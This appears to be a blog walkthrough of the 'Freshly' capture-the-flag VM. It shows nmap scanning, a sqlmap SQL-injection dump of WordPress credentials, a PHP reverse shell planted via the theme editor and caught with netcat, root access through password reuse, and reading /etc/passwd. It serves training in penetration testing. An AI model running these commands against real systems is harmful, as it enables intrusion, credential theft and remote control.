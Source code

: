 ```yaml
---
layout: blog_item
title: "Freshly Walkthrough"
date: "2024-06-14"
author: Dhruv Ambaliya
description: 'Freshly - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.109

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>64 Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
               <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/freshly/dirbuster.png)

![login form sqli](/img/blog/freshly/login.png)

## SQL Injection  

The discovered form was vulnerable to a time-based [SQL injection](/penetration-testing/web-app/sql-injection/), SQLMap was used to expose the following databases:


{% highlight bash %}

available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

{% endhighlight %}

SQLMap was used to dump the **wordpress8080** database:


{% highlight bash %}

sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dump

{% endhighlight %}

Discovered credentials:

{% highlight bash %}

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+

{% endhighlight %}

## Wordpress - Reverse PHP Shell

Wordpress was accessible on port <code>443</code> and port <code>8080</code>. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><b>admin</b></p></pc>
           </td>
           <td>
               <pc><p><code>SuperSecretPassword</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

![wordpress reverse php shell](/img/blog/freshly/wordpress-php-shell.png)

A reverse shell successfully connected back:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443           
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 13:26:49 up 46 min,  0 users,  load average: 0.00, 0.01, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}


## Privilege Escalation

Account credential reuse from the Wordpress admin password <code>SuperSecretPassword</code> allowed <code>su -</code> to escalate privileges to root.

{% highlight bash %}

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@Freshly:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@Freshly:/$ su -
su -
Password: SuperSecretPassword

root@Freshly:~# id
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

## Post Exploitation Enumeration  

The file <code>/etc/passwd</code> contained the text:

{% highlight bash %}

root@Freshly:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

{% endhighlight %}

Additionally the file <code>/etc/shadow</code> had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.

Thanks for the VM :)
